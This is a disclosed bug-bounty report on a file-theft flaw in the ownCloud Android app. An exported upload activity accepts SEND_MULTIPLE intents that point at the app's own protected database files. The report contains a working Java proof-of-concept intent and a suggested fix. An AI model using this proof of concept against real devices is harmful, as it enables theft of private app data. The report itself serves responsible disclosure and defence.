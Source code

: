 # Theft of protected files on Android

## Report Details
- **Report ID**: 1454002
- **URL**: https://hackerone.com/reports/1454002
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-01-19T12:49:29.034Z
- **Disclosed**: 2022-03-17T08:42:53.345Z

## Reporter
- **Username**: n00b-cyborg
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: owncloud

## Vulnerability Information
There is an issue that allows to retrieve any files from protected directory of application - ```/data/data/com.owncloud.android/*```.
The issue is caused by exported activity ```com.owncloud.android.ui.activity.ReceiveExternalFilesActivity``` with intent filter ```android.intent.action.SEND_MULTIPLE``` that accepts URI of files for upload. Any 3rd-party application could start this activity and upload on server any files such as database file from protected directory in context of owncloud application.

Tested on latest stable version of app - 2.19.
Version of android - 11.

Java PoC:
```Java
StrictMode.VmPolicy.Builder builder = new StrictMode.VmPolicy.Builder();
StrictMode.setVmPolicy(builder.build());
Intent intent = new Intent("android.intent.action.SEND_MULTIPLE");
intent.setClassName("com.owncloud.android", "com.owncloud.android.ui.activity.ReceiveExternalFilesActivity");
intent.setType("*/*");
intent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
ArrayList mStreamsToUpload = new ArrayList<>();
mStreamsToUpload.add(Uri.parse("file:///data/data/com.owncloud.android/databases/filelist"));
intent.putExtra("android.intent.extra.STREAM", mStreamsToUpload);
startActivity(intent);
```

**Mitigation:**
There is valid protection for preventing reading files from directory ```/data/data/com.owncloud.android/*``` in similar intent-filter ```android.intent.action.SEND```. Copy this protection for ```android.intent.action.SEND_MULTIPLE```.

## Impact

Potential attacker could steal files from protected directory of application for example files of databases, cache and history of files.

## Attachments
- before_exploit.jpg
- after_exploit.jpg
- database_theft.png
- owncl.apk
